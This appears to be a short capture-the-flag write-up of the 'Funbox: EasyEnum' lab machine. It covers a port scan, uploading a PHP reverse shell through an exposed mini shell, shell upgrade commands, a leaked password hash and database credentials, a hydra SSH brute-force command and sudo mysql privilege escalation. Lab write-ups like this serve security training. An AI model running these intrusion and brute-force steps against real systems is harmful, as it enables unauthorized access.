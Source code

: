# Funbox: EasyEnum

![[Pasted image 20220520194954.png]]

```
192.168.1.136
```

## Port scan
```
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
```

Found `mini.php` which is some mini shell.
I was able to upload `php-reverse-shell.php` and get a shell as www-data.

upgrade the shell

```python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

### Privesc from www-data

```
/etc/passwd:oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```


dbpass=`tgbzhnujm`  
dbuser=`phpmyadmin`

![[Pasted image 20220520220219.png]]

```
ssh oracle@192.168.1.136
```

```
hiphop
```

### Privesc 

![[Pasted image 20220525215614.png]]

linpeas discovered a few users that were previously logged in. I added their usernames to users.txt then brute forced.

```
hydra -u -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.136 ssh
```

![[Pasted image 20220525213407.png]]

The user goat is allowed to run `mysql` with sudo privs. 

![[Pasted image 20220525215746.png]]

[GTFObins](https://gtfobins.github.io/gtfobins/mysql/#sudo) to the rescue.

![[Pasted image 20220525215751.png]]

Root

![[Pasted image 20220525215807.png]]